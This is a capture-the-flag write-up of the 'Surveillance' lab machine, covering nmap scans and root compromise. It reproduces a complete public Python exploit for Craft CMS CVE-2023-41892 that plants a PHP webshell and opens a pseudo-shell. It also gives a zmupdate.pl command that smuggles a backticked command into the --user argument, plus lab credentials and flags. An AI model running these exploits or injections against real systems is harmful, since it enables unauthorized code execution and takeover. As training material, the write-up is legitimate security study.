

## Overview

Surveillance is a medium-difficulty Linux machine that showcases a vulnerability (`[CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892)`) in Craft CMS, which abuses PHP object injection to inject PHP content into the Craft CMS web log files to gain Remote Code Execution (RCE). The privilege escalation abuses ZoneMinder with an authenticated remote code injection in the `HostController.php` API endpoint to gain a shell as the `zoneminder` user. As this user, a `sudo` entry is abused by adding a configuration environment variable `LD_PRELOAD` via the admin panel and loading the malicious library file through `zmdc.dl` on the target, compromising the system.



**Name -** Surveillance

**IP -** 10.10.11.245

**Difficulty -** Medium

**OS -** Linux

**Points -** 30

## Information Gathering

### Port Scan

Basic Scan

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-06 02:10 +06
Nmap scan report for 10.10.11.245
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.97 seconds
```

Version Scan

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-06 02:11 +06
Nmap scan report for 10.10.11.245
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.87 seconds
```

### **HTTP Enumeration**

The http port looks like the following


From the source, we can see the cms is craftcms version 4.4.14


Looks like, It has public exploit CVE-2023-41892


So, got the PoC from https://www.exploit-db.com/exploits/51918

```python
#!/usr/bin/env python3
#coding: utf-8

# Exploit Title: Craft CMS unauthenticated Remote Code Execution (RCE)
# Date: 2023-12-26
# Version: 4.0.0-RC1 - 4.4.14
# Vendor Homepage: https://craftcms.com/
# Software Link: https://github.com/craftcms/cms/releases/tag/4.4.14
# Tested on: Ubuntu 22.04.3 LTS
# Tested on: Craft CMS 4.4.14
# Exploit Author: Olivier Lasne
# CVE : CVE-2023-41892
# References :
# https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g
# https://blog.calif.io/p/craftcms-rce

import requests
import sys, re

if(len(sys.argv) < 2):
    print(f"\033[1;96mUsage:\033[0m python {sys.argv[0]} \033[1;96m<url>\033[0m")
    exit()

HOST = sys.argv[1]

if not re.match('^https?://.*', HOST):
    print("\033[1;31m[-]\033[0m URL should start with http or https")
    exit()

print("\033[1;96m[+]\033[0m Executing phpinfo to extract some config infos")

## Execute phpinfo() and extract config info from the website
url = HOST + '/index.php'
content_type = {'Content-Type': 'application/x-www-form-urlencoded'}

data = r'action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}],"_fn_close":"phpinfo"}}'

try:
    r = requests.post(url, headers=content_type, data=data)
except:
    print(f"\033[1;31m[-]\033[0m Could not connect to {HOST}")
    exit()

# If we succeed, we should have default phpinfo credits 
if not 'PHP Group' in r.text:
	print(f'\033[1;31m[-]\033[0m {HOST} is not exploitable.')
	exit()


# Extract config value for tmp_dir and document_root
pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'

tmp_dir       = re.search(pattern1, r.text, re.DOTALL).group(1)
document_root = re.search(pattern2, r.text, re.DOTALL).group(1)


if 'no value' in tmp_dir:
	tmp_dir = '/tmp'

print(f'temporary directory: {tmp_dir}')
print(f'web server root: {document_root}')

## Create shell.php in tmp_dir

data = {
    "action": "conditions/render",
    "configObject[class]": "craft\elements\conditions\ElementCondition",
    "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
}

files = {
    "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:<?php @system(@$_REQUEST['cmd']); ?>"/>
    <write filename="info:DOCUMENTROOT/shell.php"/>
    </image>""".replace("DOCUMENTROOT", document_root), "text/plain")
}

print(f'\033[1;96m[+]\033[0m create shell.php in {tmp_dir}')
r = requests.post(url, data=data, files=files) #, proxies={'http' : 'http://127.0.0.1:8080'}) #  


# Use the Imagick trick to move the webshell in DOCUMENT_ROOT

data = {
    "action": "conditions/render",
    "configObject[class]": r"craft\elements\conditions\ElementCondition",
    "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmp_dir + r'/php*"}}}'
}

print(f'\033[1;96m[+]\033[0m trick imagick to move shell.php in {document_root}')
r = requests.post(url, data=data) #, proxies={"http": "http://127.0.0.1:8080"})

if r.status_code != 502:
    print("\033[1;31m[-]\033[0m Exploit failed")
    exit()

print(f"\n\033[1;95m[+]\033[0m Webshell is deployed: {HOST}/\033[1mshell.php\033[0m?cmd=whoami")
print(f"\033[1;95m[+]\033[0m Remember to \033[1mdelete shell.php\033[0m in \033[1m{document_root}\033[0m when you're done\n")
print("\033[1;92m[!]\033[0m Enjoy your shell\n")

url = HOST + '/shell.php'

## Pseudo Shell
while True:
    command = input('\033[1;96m>\033[0m ')
    if command == 'exit':
        exit()

    if command == 'clear' or command == 'cls':
        print('\n' * 100)
        print('\033[H\033[3J', end='')
        continue

    data = {'cmd' : command}
    r = requests.post(url, data=data) #, proxies={"http": "http://127.0.0.1:8080"})

    # exit if we have an error
    if r.status_code != 200:
        print(f"Error: status code {r.status_code} for {url}")
        exit()

    res_command = r.text
    res_command = re.sub('^caption:', '', res_command)
    res_command = re.sub(' CAPTION.*$', '', res_command)

    print(res_command, end='')
            
```

And using the exploit, I got a shell


## Getting User.txt

Linpeas found some creds


```php
'password' => ZM_DB_PASS,
'database' => ZM_DB_NAME,
'host' => 'localhost',
'password' => 'ZoneMinderPassword2023',
'database' => 'zm',

```


But those creds didn't help. I got one more interesting things from linpeas


The file contains a sql database backup of the system. I got admin hash from the sql database


Looks like a sha256 hash - `39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec`


And I cracked it with hashcat. With that, I got the username and password.

**Username -** matthew
**Password -** starcraft122490

With that, I was able to get the user flag - `a9ad47ceecd4790a391fcbb1fde9dbb1`


## Getting root.txt

From the linpeas I got another info


A service is running on port 8080.  So, I port forwarded (`ssh -L 8080:localhost:8080 matthew@10.10.11.245`) and fetch the server and got the following zoneminder setup


And after googling about zoneminder I found an exploit (CVE-2023-26035)


And I got this github [repo](https://github.com/heapbytes/CVE-2023-26035) with a poc. I used that to get a reverse shell.


And the user zoneminder can run the following as sudo


After some googling, I found out I can execute command using zmupdate.pl file and the user parameter. The user parameter directly pass that after mysql -u and that executes the command.

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='`cat /root/root.txt`' --pass=ZoneMinderPassword2023
```

And that gives the root flag - `1be1461fdd1beebd3314c96ad1a064aa`


## Flags

**user.txt -** a9ad47ceecd4790a391fcbb1fde9dbb1

**root.txt -** 1be1461fdd1beebd3314c96ad1a064aa